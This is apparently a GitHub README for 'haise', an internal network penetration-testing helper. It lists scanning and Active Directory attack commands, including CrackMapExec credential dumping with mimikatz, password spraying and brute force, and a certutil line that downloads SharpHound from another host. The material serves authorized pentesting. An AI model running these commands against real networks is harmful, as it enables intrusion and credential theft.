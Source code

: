 # haise
## Internal Network Pentest Framework
![](https://github.com/syedumerqadri/haise/blob/master/image.jpg)


## Internal Penetration Testing:

An Internal Penetration Test differs from a vulnerability assessment in that it actually exploits the vulnerabilities to determine what information is actually exposed. An Internal Penetration Test mimics the actions of an actual attacker exploiting weaknesses in network security without the usual dangers. This test examines internal IT systems for any weakness that could be used to disrupt the confidentiality, availability or integrity of the network

## Methodology:

        •  Internal Network Scanning
                  traceroute www.google.com
                  nmap 192.168.1.*
                  Reverse IP Lookup (https://mxtoolbox.com/ReverseLookup.aspx)
                  Ip Info: https://ipinfo.io/
        
        •  Port Scanning
                  nmap -p- -T4 -iL sub.txt (Fast Scan)
                  nmap -A 192.168.1.1 (Little Intense and slow)
                  nmap -sV -sC -Pn -p 1-65535 -T5 --min-rate 1000 --max-retries 5 192.168.1.1
                  nmap -sS -sC -sV -v -p 445 -iL subnet-files.txt
                  nmap -sS -sC -sV -v -p 21 -iL subnet-files.txt

                  Web Ports: 80, 8080, 443

                  
        •  Fingerprinting
                  nmap -sV --version-intensity 5 192.168.1.1
                  nc 192.168.1.1 80
                  curl -sI http://192.168.1.1

        •  Vulnerbility Scanning
                  nmap --script vuln 192.168.1.1 -d
                  nikto
                  dirsearch
                  nessus    (https://localhost:8834)
        
        •  IDS Penetration Testing
                  lbd 45.34.23.12
                  wafw00f http://192.168.1.1  
    
        •  SMB Enumeration
                Discover Host:
                cme smb <subnet>    (cme => crackmapexecs)

                Null Session:
                cme smb 192.168.24.0/24 -u '' -p ''
                smbmap –host-file smb-hosts.txt

                SMB Map:
                smbmap -H 192.168.1.1
                smbmap.py –host-file smb-hosts.txt u ‘jsmith’ -p ‘Spring!2020’ -q -R –depth 2 –exclude ADMIN$ IPC$ -A ‘passw’

        •  Exploit Research
                  https://www.exploit-db.com/
                  https://www.rapid7.com/db/
                  https://cxsecurity.com/search/       

        •  Manual Vulnerability Testing and Verification
        •  Password Strength Testing
                  rate limiting
                  sparta(tool)
                  burp (brute force)

        •  Infrastructure Mapping
                  Maltego

                  DNS Server
                  Firewall
                  Cloud
                  Employ Device
                  Logging Server
                  Directory Service
                  Admin Workstation
                                                               
        •  Administrator Privileges Escalation
        •  Database Security Controls Testing    
        •  Third-Party/Vendor Security Configuration Testing

## AD Pentesting:
“Active Directory” Called as “AD” is a directory service that Microsoft developed for the Windows domain network. 
Using it you can to control domain computers and services that are running on every node of your domain.

Active Directory (Pen Test ) is most commonly used in the Enterprise Infrastructure to manage 1000’s of computers in the organization with a single point of control as “Domain Controller”
Performing Penetration Testing of Active Directory is more interesting and are mainly targeted by many APT Groups with a lot of different techniques

    Check SMB Service in use:
    cat hosts.txt | xargs -I{} sh -c 'crackmapexec smb {}'
    
    Enumerate shares:
    crackmapexec 192.168.0.12 -u username -p 'password'  --shares

    Whos logged into the machine:
    crackmapexec 192.168.0.12 -u username -p 'password' --users

    Dump local sam hashes
    python crackmapexec 192.168.0.12 -u username -p 'password' --sam

    Dump clear text password:
    crackmapexec 192.168.0.12 -u username -p 'password' -m modules/credentials/mimikatz.py

    Downloading:
    cme smb 10.128.111.203 -u 'xampp' -p '@sdF1234' -d HQCMSDBQ -x "certutil.exe -urlcache -split -f http://172.17.17.214/SharpHound.exe pentest/zz.exe"

    Check account lockout policy:
    crackmapexec smb 192.168.1.101 -u syedali -p 'test'  --pass-pol

    Password spray:
    python crackmapexec.py 192.168.0.0/24 -u username -p 'password'
                
    Bruteforce:
    crackmapexec smb 192.168.1.102 -u username.txt -p gooo

    Connecting:
    smbclient -L 192.168.1.112 -U "Creative Green"

![](https://github.com/syedumerqadri/haise/blob/master/ss.png)

## Tool for Automation:
Internal network could possibly contain large amount of IPs,So for automation first i generate some
liner commands and then automate i them.

## Usage:
1. git clone https://github.com/syedumerqadri/haise
2. cd haise
3. put all discoverd OR provided cilient IPs on hosts.txt
4. python haise.py

You will got the prompt shell

## Shell:
		[exit]
		[clear]
		[hosts]	list all hosts
		[alive]	check if hosts are alive
		[ports]	port scan of all hosts
		[dir]	Directory Enumuration
	        [headers]  Grab Web Headers
		[scan]	Grab Headers, Port Scan and Directory Enumuration for all hosts 
		[ids] Detect Intrusion Detection System
		[smb] Check for SMB Services







